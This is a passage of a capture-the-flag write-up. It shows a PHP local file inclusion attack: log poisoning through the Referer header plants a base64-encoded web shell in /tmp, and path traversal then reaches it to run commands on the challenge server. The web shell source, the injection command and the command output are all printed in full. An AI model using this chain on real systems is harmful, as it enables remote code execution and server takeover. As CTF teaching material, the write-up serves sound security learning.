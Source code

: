 So instead of printing something, let's use PHP to create a shell.

What we want to do is upload the following PHP script to a writable location on the server:

```php
<?php 
if(isset($_REQUEST['cmd'])){ 
    echo "<pre>"; 
    $cmd = ($_REQUEST['cmd']); 
    _s_y_s_t_e_m($cmd); // Some Antivirus programs delete this writeup if it contains the command without underscores :-O
    echo "</pre>"; 
    die; 
}
?>
```

We'll encode this PHP script with base64 and upload it to a writable location on the server (`/tmp`):
```console
root@kali:/media/sf_CTFs/hoshen/3# curl http://13.67.133.176/test.php?file=foo --referer "-<?php system('echo PD9waHAgaWYoaXNzZXQoJF9SRVFVRVNUWydjbWQnXSkpeyBlY2hvICI8cHJlPiI7ICRjbWQgPSAoJF9SRVFVRVNUWydjbWQnXSk7IHN5c3RlbSgkY21kKTsgZWNobyAiPC9wcmU+IjsgZGllOyB9Pz4= | base64 -d > /tmp/shell'); ?>" 
```

We can then make requests to the script and they will be executed on the server:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell"  -X POST  --data-urlencode "cmd=ls -la"
<pre>total 36
drwxr-xr-x 5 root root 4096 Feb  8 13:46 .
drwxr-xr-x 3 root root 4096 Jan 22 08:00 ..
drwxr-xr-x 2 root root 4096 Feb  5 20:46 gallery
-rw-r--r-- 1 root root 1082 Feb  8 13:46 index.html
-rw-r--r-- 1 root root   19 Dec  5 08:59 index.php
drwxr-xr-x 5 root root 4096 Feb  8 01:07 pages
drwxr-xr-x 2 root root 4096 Jan 28 19:40 pics
-rw-r--r-- 1 root root  117 Dec  5 09:13 test.php
-rw-r--r-- 1 root root 3164 Feb  8 13:38 web.css
</pre>
```

We can check the source of `test.php`:
```console
root@kali:/media/sf_CTFs/hoshen/3# curl "http://13.67.133.176/test.php?file=../../../../tmp/shell"  -X POST --data-urlencode "cmd=cat test.php"
<pre><?php
$file = $_GET['file'];
if(isset($file))
{
include("pages/$file");
}
else
{
include("index.php");
}
?></pre>
```
